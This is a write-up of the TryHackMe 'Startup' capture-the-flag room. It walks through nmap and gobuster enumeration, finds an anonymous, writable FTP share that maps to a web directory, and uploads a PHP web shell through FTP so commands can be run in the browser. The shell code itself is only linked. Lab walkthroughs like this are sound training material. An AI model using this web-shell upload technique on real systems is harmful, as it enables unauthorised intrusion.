

# Startup
This is a write up of the CTF Room [Startup](https://tryhackme.com/room/startup) by [TryHackMe](https://tryhackme.com/). 

## Tags
Note that the room has the following tags. We need to keep this in mind when working through the room as this gives us clues as to what to look to exploit.

- wireshark 
- cron
- gobuster 
- enumeration

I also refered to this [write up](https://apjone.uk/tryhackme-startup-spicehut/) whilst working through the room.

## nmap
Enumeration of open ports was carried out with nmap.

`$ nmap -sC -sV -oN namp.txt $IPADDR`

The open ports are:
- 21, FTP
- 22, SSH
- 80, HTTP

If we look at the details of the output from nmap we see that the FTP server allows anonymous login and there is a folder (called ftp) that we can read and write too.

```
| FTP server status:
|      Connected to 10.8.172.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

## gobuster

An inital scan of the http server was performed with gobuster.

`$ gobuster dir -w /opt/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IPADDR | tee gobuster1.txt`

This gives us 1 directory to enumerate further:

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.73.233
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/23 18:10:13 Starting gobuster in directory enumeration mode
===============================================================

/files                (Status: 301) [Size: 312] [--> http://10.10.73.233/files/]
===============================================================
2022/07/23 18:15:44 Finished
===============================================================
```

Enumerating the `files` directory:

`$ gobuster dir -w /opt/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IPADDR/files | tee gobuster2.txt`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.128.62/files
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/25 04:45:13 Starting gobuster in directory enumeration mode
===============================================================

/ftp                  (Status: 301) [Size: 316] [--> http://10.10.128.62/files/ftp/]
===============================================================
2022/07/25 04:50:39 Finished
===============================================================
```

This directory hierarchy is same as that seen for the ftp server with nmap, therefore it should be possible to upload a php webshell via ftp to run in the browser.

## Uploading php web shell via ftp
Code for a php web shell was found [here](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and saved as `webshello.php`.

The php file was uploaded using an ftp client.

```
$ ftp anonymous@10.10.128.62
Connected to 10.10.128.62.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23399|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put webshello.php 
local: webshello.php remote: webshello.php
229 Entering Extended Passive Mode (|||55876|)
150 Ok to send data.
100% |********************************|   301        5.85 MiB/s    00:00 ETA
226 Transfer complete.
301 bytes sent in 00:00 (4.18 KiB/s)
ftp> quit
221 Goodbye.
```

In a web browser it is possible to navigate to the web shell uploaded to the traget machine and exectute commands. 



